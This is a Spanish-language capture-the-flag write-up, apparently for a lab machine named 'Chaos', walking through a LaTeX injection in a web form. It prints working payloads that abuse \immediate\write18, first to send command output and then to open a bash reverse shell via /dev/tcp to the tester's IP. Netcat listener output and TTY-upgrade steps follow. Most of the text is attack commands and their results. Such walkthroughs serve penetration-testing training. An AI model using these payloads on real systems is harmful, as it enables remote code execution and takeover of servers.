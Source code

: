 ## Web Exploitation

En [https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection#latex-injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection#latex-injection) hay distintos `payloads` a probar para explotar una `Latex Injection`. Lo primero es ponernos en `escucha` por `netcat`

```
# nc -nlvp 443
```

Ejecutamos este `payload` desde `Burpsuite`. Si la máquina víctima no tuviera `netcat`, podríamos haber usado el `/dev/tcp`

```
content=\immediate\write18{whoami+|+nc+10.10.16.28+443}&template=test3
```

Obtenemos un `RCE (Remote Code Execution)`

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.139.148] 44800
www-data
```

Usamos este `payload`

```
content=\immediate\write18{bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.28/443+0>%261"}&template=test3
```

`Recibimos` una `reverse shell`

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.139.148] 44864
bash: cannot set terminal process group (1545): Inappropriate ioctl for device
bash: no job control in this shell
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ whoami
whoami
www-data
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
